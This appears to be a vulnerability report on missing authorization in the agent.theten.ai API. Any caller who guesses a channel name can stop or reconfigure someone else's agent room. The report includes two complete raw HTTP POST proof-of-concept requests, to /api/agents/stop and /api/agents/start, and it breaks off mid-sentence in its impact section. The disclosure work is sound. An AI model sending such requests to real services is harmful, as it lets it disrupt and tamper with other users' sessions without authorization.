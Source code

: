 ### Summary
A large number of interfaces only determine user identity through the parameter channel_name without performing permission verification  
**resulting in a large number of unauthorized vulnerabilities All interfaces have not undergone permission verification** 

**Allowing attackers to close other people's connections and data based on the channel name**



We can regard https://agent.theten.ai/home as victim example  
Use two accounts to replicate this operation
### DETAIL
1. Victim login  

![image](https://github.com/user-attachments/assets/5dd3199b-16fe-4496-9482-d1827374bb24)
Notice The channel name 

2. Attackers send data packets (Assume attcker guess the right victim channel name[quiet easy]) 

![image](https://github.com/user-attachments/assets/f3190e3c-373c-4041-bcd1-47275d628ba7)
POC 
```
POST /api/agents/stop HTTP/2
Host: agent.theten.ai
Content-Length: 85
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Origin: https://agent.theten.ai
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://agent.theten.ai/home
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"request_id":"6182c335-2eb9-4f64-8c87-510b953d52b312","channel_name":"agora_02nq0h"}
```
The channel name can be traversed own By victim, and after this request is sent, the corresponding room will pause the connection

3. Users can reset the link properties in room by accessing the POST/app/agents/start interface
Note that there is no association between user_id and channel
![image](https://github.com/user-attachments/assets/abc831e8-e9f9-40a2-8454-84729ab5ccc3)
```
POST /api/agents/start HTTP/2
Host: agent.theten.ai
Content-Length: 178
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Origin: https://agent.theten.ai
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://agent.theten.ai/home
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"request_id":"094a98a1-ece7-4906-95c5-bc3a877932a7","channel_name":"agora_02nq0h","user_uid":119866,"graph_name":"camera.va.openai.azure","language":"zh-CN","voice_type":"male"}
```


4. We edited the graph_name as separate data, but it was not displayed on the user's frontend, but it did indeed change in the backend

![image](https://github.com/user-attachments/assets/8e37fdd6-647e-4bd8-9faa-a94bbd2eb893)  




#### impact
Being able to modify someone else's room configuration beyond their authority and creating DOS vulnerabilities in their use of the room,Besides

